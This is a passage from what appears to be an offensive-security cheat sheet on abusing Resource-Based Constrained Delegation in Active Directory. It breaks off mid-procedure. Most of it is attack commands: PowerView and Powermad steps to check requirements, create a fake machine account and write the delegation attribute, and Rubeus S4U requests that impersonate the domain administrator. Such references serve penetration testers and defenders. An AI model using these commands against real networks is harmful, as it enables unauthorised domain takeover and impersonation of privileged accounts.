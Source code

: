 [Wagging the Dog](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)

With RBCD, this is the resource machine (the machine that receives delegation) which has a list of services that can delegate to it. This list is specified in the attribute `msds-allowedtoactonbehalfofotheridentity` and the computer can modified its own attribute (really usefull in NTLM relay attack scenario).

#### Requirements

* The DC has to be at least a **Windows Server 2012**
* Domain users can create some machines, `ms-ds-machineaccountquota` must not being to 0

```powershell
#To verify
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local
```

* Write rights on the target machine (**GenericAll, GenericWrite, AllExtendedRights**)
* Target computer, object must not have the attribute `msds-allowedtoactonbehalfofotheridentity` set

```powershell
Get-NetComputer ws01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

#### Standard RBCD

The attaker has compromised ServiceA and want to compromise ServiceB. Additionnally he has sufficient rights to configure `msds-allowedtoactonbehalfofotheridentity` on ServiceB.

```powershell
#Add RBCD from ServiceA to ServiceB
Set-ADComputer ServiceB -PrincipalsAllowedToDelegateToAccount ServiceA$

#Verify property
Get-NetComputer ServiceB | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity

#Get ServiceA TGT and then S4U
rubeus -x tgtdeleg /nowrap
rubeus -x s4u /user:ServiceA$ /ticket:ticket.kirbi /impersonateuser:administrator /msdsspn:host/ServiceB.domain.local /domain:domain.local /altservice:cifs,host,http,winrm,RPCSS,wsman /ptt
```

#### With machine account creation

* Add a fake machine account in the domain
* Add it the to `msds-allowedtoactonbehalfofotheridentity` attribute of the target machine

```powershell
Import-Module Powermad.ps1
Import-Module PowerView.ps1

#Creds if needed, to run as another user
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain.local\user1', $SecPassword)

#Check requirements
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local -Credential $Cred
Get-NetComputer <target> -Domain domain.local | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity

#Add the fake machine as a ressource + get its SID
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force) -Credential $Cred -Verbose -Domain domain.local -DomainController DC.domain.local
Get-DomainComputer FAKE01 -Domain domain.local -Credential $Cred
$ComputerSid = Get-DomainComputer FAKE01 -Properties objectsid | Select -Expand objectsid

#Create the new raw security descriptor
```